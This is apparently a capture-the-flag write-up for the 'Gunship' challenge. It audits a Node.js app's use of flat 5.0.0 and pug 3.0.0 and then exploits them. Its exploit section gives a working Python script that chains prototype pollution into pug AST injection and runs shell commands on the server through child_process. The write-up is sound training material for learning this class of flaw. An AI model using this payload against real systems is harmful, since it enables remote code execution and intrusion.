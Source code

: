 # Gunship
![image](https://user-images.githubusercontent.com/44206101/147740721-833f0746-1e34-4cad-91c5-920fdb430a30.png)
## First look
What an eye-catching interface!
![image](https://user-images.githubusercontent.com/44206101/147741109-7b764efa-077a-49af-a035-3ca1ec4fa702.png)

Click on HERE, we are directed to [GUNSHIP](https://www.retro-synthwave.com/artists/gunship) - a GUNSHIP's website, so don't mind it!

The last thing we have to focus on is name input. Let's try to fill something here!
![image](https://user-images.githubusercontent.com/44206101/147744651-9ae91bed-e0a9-4eba-b512-6d49529c5674.png)

It wants the full name of an existing member. I chose Alex Westaway, it returned different response but it seems useless.
![image](https://user-images.githubusercontent.com/44206101/147744954-268e50fa-9645-4bb3-b239-662d5b412c42.png)

This is a `white box` challenge, so let's audit source code.

## Audit
*index.js*
```js
const path              = require('path');
const express           = require('express');
const pug        		= require('pug');
const { unflatten }     = require('flat');
const router            = express.Router();

router.get('/', (req, res) => {
    return res.sendFile(path.resolve('views/index.html'));
});

router.post('/api/submit', (req, res) => {
    const { artist } = unflatten(req.body);

	if (artist.name.includes('Haigh') || artist.name.includes('Westaway') || artist.name.includes('Gingell')) {
		return res.json({
			'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user: 'guest' })
		});
	} else {
		return res.json({
			'response': 'Please provide us with the full name of an existing member.'
		});
	}
});

module.exports = router;
```

This NodeJS application use `flat` library to unflatten data and `pug` template engine to compile html code.
```js
const pug        		= require('pug');
const { unflatten }     = require('flat');
```

Check `package.json`, flat's version is `5.0.0` and pug's version is `3.0.0`
![image](https://user-images.githubusercontent.com/44206101/147748168-83c6695f-5234-4eb6-82f0-a7a973cbfc6e.png)

After searching for `flat 5.0.0` and `pug 3.0.0`, I knew that `flat 5.0.0` can result in Prototype Pollution and `pug 3.0.0` can result in RCE.

By the way, I found a blog [AST Injection, Prototype Pollution to RCE](https://blog.p6.is/AST-Injection/)

Now, let's kick the tires.

## Exploit
### Make pollution by python script
We use `ls > /app/static/pollution` to list all files in folder `app` and output at `app/static/pollution` because it's  readable easily. 
```python
import requests

TARGET_URL = 'http://138.68.149.48:30055/api/submit'

# make pollution
requests.post(TARGET_URL, json = {
    "artist.name":"Alex Westaway",
    "__proto__.block": {
        "type": "Text", 
        "line": "process.mainModule.require('child_process').execSync('ls > /app/static/pollution')"
    }
})
```

Curl:
![image](https://user-images.githubusercontent.com/44206101/147752576-06fc8e76-c366-4c36-9760-154914e462b7.png)

Maybe the real flag is `flagPULXq`. So let's copy it from folder `app` to `app/static/`

### Take the flag
Edit payload: `cp /app/flagPULXq /app/static/real_flag`

And curl it
![image](https://user-images.githubusercontent.com/44206101/147753420-c01cedd5-ddbb-4e8a-88ad-ab2f6ccd3773.png)

Got the flag and submit it!

Good luck!
